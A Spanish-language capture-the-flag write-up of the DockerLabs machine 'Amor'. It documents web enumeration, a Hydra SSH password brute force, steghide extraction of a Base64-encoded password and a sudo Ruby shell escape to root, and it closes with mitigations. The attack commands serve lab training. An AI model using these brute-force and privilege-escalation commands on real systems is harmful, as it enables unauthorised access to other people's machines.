

# Amor — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar enumeración web, fuerza bruta SSH con Hydra y escalada de privilegios en Linux.

## Attack chain

**Nmap → Web Enumeration → Gobuster → User Discovery (juan/carlota) → SSH Brute Force (Hydra) → SSH Access (carlota) → Image Steganography (steghide) → Base64 Decoding → User Pivoting (oscar) → Sudo Misconfiguration (Ruby) → Root**

## 1. Analisis y escaneo del objetivo.

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-30 15:35 -0300
Nmap scan report for chocolatelovers.dl (172.17.0.2)
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: D2:6E:4D:31:AF:62 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Solo dos puertos abiertos: SSH (22) y HTTP (80). Apache 2.4.58 ya trae parchados los CVE conocidos de versiones anteriores (2.4.55-2.4.57), así que el vector no pasa por el servidor web en sí, sino por el contenido o la configuración de la aplicación.

## 2. Enumeracion WEB 



La página de la empresa ficticia "SecurSEC S.L" muestra varias "noticias" internas de seguridad, entre ellas una clave:

> **¡Importante! Despido de empleado**
> Juan fue despedido de la empresa por enviar un correo con la contraseña a un compañero.
> **Firmado:** Carlota, Departamento de ciberseguridad

Esto deja dos nombres de usuario candidatos: `juan` y `carlota`, y la pista de que una contraseña quedó filtrada "por correo".


### Fuzzing de directorios
                                                                                                               
```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log
                                
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak,zip,conf,config,log,php,html,old,htm,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
index.html           (Status: 200) [Size: 3033]
server-status        (Status: 403) [Size: 275]
index.html           (Status: 200) [Size: 3033]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================

```
Sin resultados adicionales de interés: `/javascript/` solo contenía la librería jQuery estándar (sin permisos de listado), y `server-status` estaba bloqueado (403).

## 3.  Acceso inicial - Fuerza bruta SSH

Con los usuarios candidatos (`juan`, `carlota`) obtenidos de la web, se lanzó Hydra contra SSH usando rockyou.txt:

```bash
                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4

  [22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
  1 of 1 target successfully completed, 1 valid password found

```
Credencial válida: **carlota : babygirl**


## 4. Movimiento lateral - Esteganografía

Antes de seguir, se verificaron los vectores clásicos de escalada con el usuario carlota:


```bash
carlota@da9a9048a81e:~$ sudo -l
[sudo] password for carlota: 
Sorry, user carlota may not run sudo on da9a9048a81e.
carlota@da9a9048a81e:~$ find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
carlota@da9a9048a81e:~$ 

```

`sudo -l` indicó que carlota no tiene permisos para ejecutar nada como root, y el listado de binarios SUID (`find / -perm -4000`) solo mostró los binarios estándar del sistema (mount, su, passwd, etc.), sin ninguno explotable. Al no tener permisos suficientes sobre esos vectores, se descartó la escalada directa desde carlota y se continuó enumerando el resto del sistema.

Enumerando el home de carlota se encontró una imagen oculta en un subdirectorio:

```bash                                                                                                                      
carlota@da9a9048a81e:~$ ls -la
total 40
drwxr-x--- 1 carlota carlota 4096 Oct 31 22:43 .
drwxr-xr-x 1 root    root    4096 Apr 26  2024 ..
-rw------- 1 carlota carlota  429 Oct 31 22:43 .bash_history
-rw-r--r-- 1 carlota carlota  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 carlota carlota 3909 Apr 26  2024 .bashrc
drwx------ 2 carlota carlota 4096 Oct 30 21:51 .cache
-rw-r--r-- 1 carlota carlota  807 Mar 31  2024 .profile
drwx------ 2 carlota carlota 4096 Oct 31 21:54 .ssh
drwxr-xr-x 1 root    root    4096 Apr 26  2024 Desktop
carlota@da9a9048a81e:~$ cd Desktop/
carlota@da9a9048a81e:~/Desktop$ ls -la
total 12
drwxr-xr-x 1 root    root    4096 Apr 26  2024 .
drwxr-x--- 1 carlota carlota 4096 Oct 31 22:43 ..
drwxr-xr-x 1 root    root    4096 Apr 26  2024 fotos
carlota@da9a9048a81e:~/Desktop$ cd fotos
carlota@da9a9048a81e:~/Desktop/fotos$ ls -la
total 12
drwxr-xr-x 1 root root 4096 Apr 26  2024 .
drwxr-xr-x 1 root root 4096 Apr 26  2024 ..
drwxr-xr-x 1 root root 4096 Apr 26  2024 vacaciones
carlota@da9a9048a81e:~/Desktop/fotos$ cd vacaciones/
carlota@da9a9048a81e:~/Desktop/fotos/vacaciones$ ls -la
total 60
drwxr-xr-x 1 root root  4096 Apr 26  2024 .
drwxr-xr-x 1 root root  4096 Apr 26  2024 ..
-rw-r--r-- 1 root root 51914 Apr 26  2024 imagen.jpg


```

Se transfirió la imagen a la máquina atacante:

```bash
scp carlota@172.17.0.2:~/Desktop/fotos/vacaciones/imagen.jpg .

```
`exiftool` no arrojó nada relevante en la metadata. `steghide` sí detectó un archivo embebido:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ steghide info imagen.jpg
"imagen.jpg":
  format: jpeg
  capacity: 2.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secret.txt":
    size: 25.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

```
Extracción del archivo:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ steghide extract -sf imagen.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
                                                                                                                          
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ cat secret.txt 
ZXNsYWNhc2FkZXBpbnlwb24=

```
El contenido es Base64:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/amor]
└─$ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
eslacasadepinypon        

```
Con esta contraseña se logró cambiar al usuario `oscar` (listado en `/home`):

```bash
carlota@da9a9048a81e:~$ su oscar
Password: 
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
oscar@da9a9048a81e:/home/carlota$

```

## 5. Escalada de privilegios

Verificando los permisos sudo de oscar:

```bash

oscar@da9a9048a81e:/home/carlota$ sudo -l
Matching Defaults entries for oscar on da9a9048a81e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User oscar may run the following commands on da9a9048a81e:
    (ALL) NOPASSWD: /usr/bin/ruby

```
`ruby` permite escapar a una shell de root sin contraseña (GTFOBins):

```
oscar@da9a9048a81e:/home/carlota$ sudo ruby -e 'exec "/bin/sh"'
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@da9a9048a81e:/home/carlota# id
uid=0(root) gid=0(root) groups=0(root)
root@da9a9048a81e:/home/carlota# whoami
root
root@da9a9048a81e:/home/carlota#

```
Root obtenido.

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH y Apache. Al revisar la página web, se encontraron los nombres de posibles usuarios y una pista relacionada con una contraseña filtrada. Posteriormente, mediante **Hydra**, se realizó un ataque de fuerza bruta contra SSH, obteniendo acceso con el usuario `carlota`.

Una vez dentro del sistema, se realizó una enumeración de archivos y directorios, donde se descubrió una imagen que contenía información oculta mediante **Steghide**. Tras extraer el archivo y decodificar su contenido en Base64, se obtuvo la contraseña del usuario `oscar`, lo que permitió realizar un movimiento lateral dentro del sistema.

Finalmente, mediante `sudo -l`, se identificó que `oscar` podía ejecutar `/usr/bin/ruby` como `root` sin necesidad de contraseña. Aprovechando este permiso para ejecutar una shell mediante Ruby, se consiguió acceso privilegiado y se completó la máquina.

En conclusión, **Amor** permite comprender cómo la exposición de información, las contraseñas débiles y el uso de esteganografía pueden facilitar el acceso inicial y el movimiento lateral dentro de un sistema. También demuestra los riesgos de otorgar permisos excesivos mediante `sudo`, especialmente cuando permiten ejecutar intérpretes como Ruby con privilegios de `root`.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Exposición de información en la página web** | Facilita la identificación de posibles usuarios y proporciona pistas útiles para un ataque. | Evitar publicar información interna y revisar periódicamente el contenido del servidor web. |
| **Contraseña SSH débil o predecible** | Facilita el acceso mediante ataques de fuerza bruta o diccionarios. | Utilizar contraseñas robustas, autenticación mediante claves SSH y limitar los intentos de conexión. |
| **Información sensible oculta en una imagen** | Permite descubrir credenciales mediante técnicas de esteganografía. | Evitar almacenar contraseñas u otra información sensible en archivos accesibles. |
| **Reutilización o exposición de contraseñas** | Permite realizar movimientos laterales entre usuarios. | Utilizar contraseñas únicas y almacenarlas de forma segura. |
| **Permisos excesivos de `sudo` sobre Ruby** | Permite ejecutar comandos con privilegios de `root` y obtener una shell privilegiada. | Restringir los permisos de `sudo` y aplicar el principio de mínimo privilegio. |

## Recomendaciones generales

- Evitar publicar información interna que pueda facilitar la identificación de usuarios o credenciales.
- Utilizar contraseñas robustas, únicas y difíciles de adivinar.
- Proteger el acceso SSH mediante autenticación con claves y limitación de intentos.
- No almacenar credenciales dentro de archivos que puedan quedar expuestos.
- Revisar periódicamente los permisos de `sudo`, especialmente sobre intérpretes como Ruby, Python o Bash.
- Aplicar el principio de mínimo privilegio para evitar que usuarios sin permisos administrativos puedan obtener acceso como `root`.
